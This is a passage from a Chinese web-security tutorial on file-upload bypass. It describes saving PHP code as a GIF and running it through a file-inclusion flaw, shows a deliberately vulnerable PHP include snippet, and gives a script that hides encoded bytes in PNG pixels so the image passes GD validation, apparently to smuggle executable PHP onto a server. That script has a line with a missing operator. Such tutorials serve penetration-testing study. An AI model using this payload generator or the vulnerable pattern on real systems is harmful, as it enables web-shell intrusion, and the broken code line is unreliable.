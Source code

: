 将文件保存为 x.gif ，上传都服务器后需要配合文件包含漏洞来执行该代码。

![img](https://oss-emcsprod-public.modb.pro/wechatSpider/modb_20210628_3e73a5fa-d7de-11eb-8d0e-00163e068ecd.png)
![img](https://oss-emcsprod-public.modb.pro/wechatSpider/modb_20210628_3ea5a3ca-d7de-11eb-8d0e-00163e068ecd.png)

> **文件包含：**
>
> **
> **
>
> 服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。这意味着您可以创建供所有网页引用的标准页眉或菜单文件。当页眉需要更新时，您只更新一个包含文件就可以了，或者当您向网站添加一张新页面时，仅仅需要修改一下菜单文件（而不是更新所有网页中的链接）。PHP中文件包含函数有以下四种：



```
require()
require_once()
include()
include_once()
```

> include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。 
>
> 而include_once()，require_once()这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

> **产生原因：** 
>
> **
> **
>
> 文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。



```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

**第二种：**

在某些 php 环境中会调用如 gd 库来验证上传是是否是图片文件，即使构造了一个图片文件，只要文件数据不符合图片标识数据，即拒绝上传，所以来看怎么构造一个符合图片标识数据的图片文件。

下列代码，可以制作符合图片标识的图片文件：



```
<?php
//png.php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0xe, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x1, 0xdc, 0x5a, 0x1, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y  3), 0, $color);
}
imagepng($img,'./pass17.png');
?>
```

